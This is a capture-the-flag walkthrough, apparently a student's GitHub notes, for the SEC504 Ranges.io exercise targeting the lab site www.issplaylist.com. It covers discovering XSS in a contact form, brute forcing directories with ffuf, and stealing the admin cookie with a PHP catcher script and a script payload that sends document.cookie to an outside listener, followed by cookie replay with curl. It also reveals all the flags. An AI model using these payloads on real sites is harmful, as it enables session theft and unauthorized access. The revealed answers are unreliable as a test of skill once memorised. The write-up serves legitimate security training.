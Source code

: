 # SEC504 Ranges.io CTF - Walkthrough

This document contains my step-by-step solutions for the **www.issplaylist.com** section challenges.  
Each section includes **question**, **steps taken**, and **answer/flag**.

---

## Contact
**Question:**  
Interact with the contact form on the www.issplaylist.com website. What is the flag returned as the reference number?

**Steps Taken:**
I navigated to <https://www.issplaylist.com/contact.html> and typed `Mike` into the First Name box. After clicking **Submit**, the page responded with a reference number, which was the flag I needed.  

**Flag:**
<details>
  <summary>Click to reveal the flag</summary>

  `NetWars{ReceivedSubmission}`

</details>

---

## Vulnerability Discovery
**Question:**  
Explore the Contact page on the www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.

**Steps Taken:**
At first, I tested for **command injection** in every form field. Nothing interesting came back, so I moved on. Next, I decided to test for **Cross-Site Scripting (XSS)**, since it made the most sense for a form like this. I submitted the following payload:  

```html
Mike<script>alert(1)</script>
```

The result was immediate — a popup alert appeared, confirming an XSS vulnerability.  

**Answer:**
<details>
  <summary>Click to reveal the answer</summary>

  `Cross-Site Scripting`

</details>

---

## Information Gathering
**Question:**  
Identify the hidden page on the www.issplaylist.com server. Submit the page name (XXXXX.html).

**Steps Taken:**
I launched **ffuf** to brute force potential directories:  

```bash
ffuf -w common.txt -u https://www.issplaylist.com/FUZZ -s -mc 200,301
```

The results showed: `admin`, `images`, `index.html`, and `res`. Testing them manually:  
- `images` and `res` returned Forbidden  
- `index.html` loaded fine (the main page)  
- `admin` loaded successfully, revealing the hidden admin page  

As an alternative, I knew I could also use Nmap’s `http-enum` script:  

```bash
nmap -n --script=http-enum www.issplaylist.com
```

But ffuf already confirmed the answer.  

**Answer:**
<details>
  <summary>Click to reveal the answer</summary>

  `admin.html`

</details>

---

## Cookie Theft
**Question:**  
Administrators for the www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?

**Steps Taken:**
I leveraged the XSS vulnerability I had already discovered. To capture the admin’s cookie, I used a PHP cookie catcher script, modified from the course lab:  

```php
<?php
// Build log entry
$data = [
    'GET'     => $_GET,
    'POST'    => $_POST,
    'headers' => function_exists('getallheaders') ? getallheaders() : [],
];

// Convert to JSON
$json = json_encode($data, JSON_UNESCAPED_SLASHES | JSON_PRETTY_PRINT);

// Append to cookies.log
file_put_contents("cookies.log", $json . PHP_EOL, FILE_APPEND);

// Print to terminal if STDOUT is defined
if (defined('STDOUT')) {
    fwrite(STDOUT, $json . PHP_EOL);
}

// Send no content back to browser
http_response_code(204);
exit;
?>
```

I started a listener with:  

```bash
php -S 0.0.0.0:8080
```

Then, I submitted this payload into the First Name field:  

```html
Mike<script>document.location="http://10.142.148.3:8080/" + document.cookie</script>
```

When the admin later opened the submissions, their authentication cookie was sent to my listener. In my test, the cookie log showed:  

```
/authtoken=0f186582606b62965d90e772e76a8a5620b11af9
```

**Answer:**
<details>
  <summary>Click to reveal the answer</summary>

  `authtoken`

</details>

---

## Unauthorized Access
**Question:**  
Use the stolen cookie to access the admin page. Submit the flag.

**Steps Taken:**
I took the stolen cookie and used it with `curl` to access the hidden admin page:  

```bash
curl -k -b "authtoken=0f186582606b62965d90e772e76a8a5620b11af9" https://www.issplaylist.com/admin.html | grep -i NetWars
```

The output included the flag:  

**Flag:**
<details>
  <summary>Click to reveal the flag</summary>

  `NetWars{CongratsAdmin}`

</details>

